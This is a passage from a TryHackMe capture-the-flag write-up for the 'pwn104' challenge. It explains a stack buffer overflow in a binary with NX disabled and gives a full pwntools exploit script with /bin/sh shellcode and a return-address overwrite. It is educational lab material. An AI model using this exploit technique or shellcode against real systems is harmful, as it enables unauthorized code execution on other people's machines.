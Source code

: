 80 byte allocated for local_58 but at the end of the decompiled code we see that read function takes 200 byte. This gives us exploitation advantage: **buffer overflow**

When we consider that NX is disabled we can execute a shell code with buffer overflow.

We find how much character infilate the buffer. Then we write the exploit.

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2018.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn104.pwn104'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

# check exploit-db for shellcode https://www.exploit-db.com/exploits/46907
shellcode  = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

io = start()
io.recvuntil(b'at ') #program gives us buffer location, we skip till that part
address = io.recvline() 
bufferLocation = p64(int(address, 16))

exploit  = b''
exploit += shellcode
exploit  += b"\x90"*(88-len(shellcode))
exploit += bufferLocation

io.sendline(exploit)

io.interactive()
```

